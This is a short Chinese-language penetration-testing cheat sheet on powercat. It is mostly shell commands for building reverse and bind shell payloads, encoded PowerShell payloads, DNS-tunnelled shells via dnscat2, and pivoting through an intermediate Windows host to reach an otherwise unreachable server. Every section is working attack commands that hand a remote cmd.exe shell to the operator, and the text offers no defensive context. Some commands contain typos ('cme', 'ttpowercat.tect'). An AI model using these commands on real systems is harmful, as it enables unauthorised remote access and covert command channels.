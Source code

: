 用powercat生成payload
```bash
# 有正向、反向，且可以进行编码

##
# 客户端生成
powercat -l -p 8888 -e cme -v -g >>shell.ps1   # 生成反弹shell的脚本
#或者生成反弹powershell的脚本
powercat -l -p 7777 -ep -v -g >>shell2.ps1
# 把生成的文件上传到目标并运行
# 然后在客户端执行
powercat -c 10.10.10.129 -p 8888 -v  # 就会获得一个反弹shell


## 也可生成编码的payload
# 客户端运行
powercat -c 10.10.10.129 -p 6666 -ep -ge    # -ge  生成经过编码的payload
# 目标运行
powershell -E "上面的编码"
# 继续客户端执行
powercat -l -p 9999 -v

```

PowerCat DNS隧道通信
```bash
# 由于其dns隧道是基于dnscat设计的，所以先下载安装编译它(放在目标机器Linux)
# 下载地址：https://github.com/iagox86/dnscat2
git clone https://github.com/iagox86/dnscat2
cd dnscat2/server/
gem install bundler
bundle install


# 然后，目标机器执行
ruby dnscat2.rb ttpowercat.test -e open --no-cache
# 回到我们的机器，执行
powercat -c 192.168.56.129 -p 53 -dns ttpowercat.tect -e cmd.exe  # -dns表示使用dns进行通信
# 然后就能看到反弹回来的shell了

```

将powercat作为跳板
```bash
# 情景：vps可访问win7,但不能访问win server08 win7可访问win server08
# 以win7为跳板，来实现vps对win server08的访问

### F1
#1.在win server08执行
powercat -l -v -p 9999 -e cmd.exe
#2.在win7(跳板)执行
powercat -l -v -p 8000 -r tcp:10.10.10.129:9999
#3.vps上，连接win7
nc 192.168.56.130 8000 -vv  # 连接成功


### F2. 使用DNS协议
#1. win7上
powercat -l -p 8000 -r dns:192.168.56.129::ttpowercat.test     # 指定vps的地址
#2. vps上执行，启动dnscat
ruby dnscat2.rb ttpowercat.test -e open --no-cache
#3. win server08(目标机器)
powercat -c 10.10.10.128 -p 8000 -v -e cmd.exe
# 就可以看到反弹shell了

```